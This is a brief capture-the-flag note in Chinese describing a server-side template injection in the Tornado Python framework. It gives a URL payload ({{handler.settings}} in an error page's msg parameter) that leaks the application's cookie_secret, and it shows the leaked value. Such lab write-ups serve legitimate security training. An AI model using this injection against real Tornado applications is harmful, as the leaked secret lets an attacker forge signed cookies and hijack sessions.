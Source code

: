 tornado框架是Python框架，接收参数可能造成模板注入获取cookie_secret。
```
buuoj.cn:81/error?msg={{handler.settings}}
可获取
cookie_secret: d6eee621-b501-4757-9b42-5d0e36f28710
```
